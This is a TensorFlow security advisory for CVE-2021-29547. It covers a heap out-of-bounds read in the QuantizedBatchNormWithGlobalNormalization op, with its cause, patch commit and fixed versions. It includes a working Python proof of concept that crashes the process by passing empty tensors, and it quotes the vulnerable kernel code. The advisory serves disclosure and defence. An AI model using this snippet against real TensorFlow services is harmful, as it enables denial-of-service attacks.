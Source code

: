 URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2021-035.md
## TFSA-2021-035: Heap out of bounds in `QuantizedBatchNormWithGlobalNormalization`

### CVE Number
CVE-2021-29547

### Impact
An attacker can cause a segfault and denial of service via accessing data
outside of bounds in `tf.raw_ops.QuantizedBatchNormWithGlobalNormalization`:

```python
import tensorflow as tf

t = tf.constant([1], shape=[1, 1, 1, 1], dtype=tf.quint8)
t_min = tf.constant([], shape=[0], dtype=tf.float32)
t_max = tf.constant([], shape=[0], dtype=tf.float32)
m = tf.constant([1], shape=[1], dtype=tf.quint8)
m_min = tf.constant([], shape=[0], dtype=tf.float32)
m_max = tf.constant([], shape=[0], dtype=tf.float32)
v = tf.constant([1], shape=[1], dtype=tf.quint8)
v_min = tf.constant([], shape=[0], dtype=tf.float32)
v_max = tf.constant([], shape=[0], dtype=tf.float32)
beta = tf.constant([1], shape=[1], dtype=tf.quint8)
beta_min = tf.constant([], shape=[0], dtype=tf.float32)
beta_max = tf.constant([], shape=[0], dtype=tf.float32)
gamma = tf.constant([1], shape=[1], dtype=tf.quint8)
gamma_min = tf.constant([], shape=[0], dtype=tf.float32)
gamma_max = tf.constant([], shape=[0], dtype=tf.float32)

tf.raw_ops.QuantizedBatchNormWithGlobalNormalization(
  t=t, t_min=t_min, t_max=t_max, m=m, m_min=m_min, m_max=m_max,
  v=v, v_min=v_min, v_max=v_max, beta=beta, beta_min=beta_min,
  beta_max=beta_max, gamma=gamma, gamma_min=gamma_min,
  gamma_max=gamma_max, out_type=tf.qint32,
  variance_epsilon=0.1, scale_after_normalization=True)
```

This is because the
[implementation](https://github.com/tensorflow/tensorflow/blob/55a97caa9e99c7f37a0bbbeb414dc55553d3ae7f/tensorflow/core/kernels/quantized_batch_norm_op.cc#L176-L189)
assumes the inputs are not empty:

```cc
const float input_min = context->input(1).flat<float>()(0);
const float input_max = context->input(2).flat<float>()(0);
...
const float mean_min = context->input(4).flat<float>()(0);
const float mean_max = context->input(5).flat<float>()(0);
...
const float var_min = context->input(7).flat<float>()(0);
const float var_max = context->input(8).flat<float>()(0);
...
const float beta_min = context->input(10).flat<float>()(0);
const float beta_max = context->input(11).flat<float>()(0);
...
const float gamma_min = context->input(13).flat<float>()(0);
const float gamma_max = context->input(14).flat<float>()(0);
```

If any of these inputs is empty, `.flat<T>()` is an empty buffer, so accessing
the element at index 0 is accessing data outside of bounds.

### Patches
We have patched the issue in GitHub commit
[d6ed5bcfe1dcab9e85a4d39931bd18d99018e75b](https://github.com/tensorflow/tensorflow/commit/d6ed5bcfe1dcab9e85a4d39931bd18d99018e75b).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
